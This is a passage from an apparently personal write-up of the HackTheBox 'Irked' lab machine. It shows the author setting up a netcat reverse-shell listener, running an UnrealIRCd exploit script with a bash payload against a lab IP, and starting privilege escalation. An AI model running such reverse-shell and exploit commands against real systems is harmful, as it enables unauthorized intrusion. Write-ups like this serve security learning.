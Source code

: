 
The exploit should be ready now, so I saved the exploit and addeed execute permissions with `chmod +x exploit.py`. 


The next step is to setup the listener for the reverse shell:

```bash
rlwrap nc -lnvp 9001
```

We should be all set for the exploit, let's execute:

```bash
./exploit.py -payload bash 10.129.172.93 6697
```

After a couple of seconds I get a connection back on my listener:

![shell-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Irked/img/shell-12.png)


Nice! Let's move to privesc! 


## Privilege Escalation


When we land on the machine, we get access as the user who runs the `UnrealIRCd` program, which in the cse of this box, is a dedicated user `ircd`. There is another user account on the system:

![user-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Irked/img/user-13.png)


From the above output we can see our user has read permissions to `djmardov`'s home directory. So I decided to look around he's home folder, and that's where I found the following:

